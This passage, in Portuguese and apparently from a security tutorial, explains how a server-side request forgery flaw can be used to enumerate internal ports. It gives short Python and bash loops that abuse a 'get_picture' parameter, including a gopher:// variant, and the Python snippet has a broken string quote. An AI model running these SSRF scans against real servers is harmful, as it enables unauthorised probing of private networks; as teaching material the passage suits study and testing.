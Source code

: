 Por meio do SSRF podemos forçar o servidor a enviar requisições para diferentes portas em um destino específico, permitindo a descoberta de serviços internos e possíveis pontos fracos na infraestrutura. Para explorar essas portas abertas é necessário um script para enumerar as portas:
**Utilizando Python é possível escrever um simples script para isso:**
```
import requests

portas = {21,80,8080}
for port in portas:
	print(f"Porta: {port}")
	r = requests.get(http://10.10.0.5/?get_picture=http://localhost:"+str(port))
	print(r.text)
```
**Utilizando bash para fazer o PortScan**
```
for port in {21,22,23,25,80,80,8080,3306,5432,8443,445,139,9000}; do echo $port; curl -s “http://10.10.0.11/?get_picture=gopher://localhost:$port/_TEST”|cat; done
```

